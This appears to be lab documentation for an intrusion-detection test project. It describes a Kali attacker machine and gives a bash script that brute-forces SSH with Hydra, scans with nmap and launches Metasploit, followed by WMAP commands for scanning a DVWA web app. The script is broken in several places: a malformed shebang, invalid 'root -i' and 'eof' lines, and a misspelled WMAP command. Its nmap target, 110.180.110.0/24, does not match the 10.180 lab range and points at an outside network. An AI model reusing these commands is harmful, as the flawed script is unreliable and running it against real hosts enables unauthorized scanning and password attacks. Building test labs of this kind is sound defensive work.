 Attacker Machines
====
We chose to have two machines acting as attackers on our network, one external and a internal compromised Windows host.

Kali Outside Attacker Machine
----
We chose to use Kali Linux as our external attacker machine, Kali was chosen due to its existing robust catalouge of hacking tools.
We chose to use the following to simulate an attack: 

- NMAP (Scanning Ports)
- HYDRA (Brute Force Password)
- WMAP / Metasploit (Scanning DVWA)

I wrote a custom script to automate most of this process.
    
    .. code-block:: bash

        #/bin/bash
        root -i
        echo "======================================"
        cowsay Moooo!
        echo "Proj: IDS"
        echo "Purpose: Test IDS Rules and Logging with a variety of attacks"
        echo "#################################"
        hydra -L name -P a 10.180.110.250 ssh -t 4
        echo "DONE: Hydra on Admin ASDM Download to find privlaged users"
        echo "#############################"
        ssh user1@10.180.110.250 'exit'
        echo "DONE: Sample remote ssh via attempted brute force"
        echo "###########################"
        #cowsay Hackermode
        sudo nmap -v  110.180.110.0/24
        msfconsole 'load'
        echo "DONE: WEB APP EXPLOITS"
        #cowsay MOO!
        echo "==================================="
        eof

This script launches a hydra attack on the specified IP addresses, then runs a nmap scan and then opens the metasploit console

Then once we are in the MSF console we will run the following to scan our vuln filled web application for exploits.

    .. code-block:: bash

        msf6 > load wmap
        msf6 > wmap_sites -l
        msf6 > wmmap_targets -t http://10.180.110.250/dvwa/index.php
        msf6 > wmap_run -t
        msf6 > wmap_run -e
        msf6 > wmap_vulns -l
        

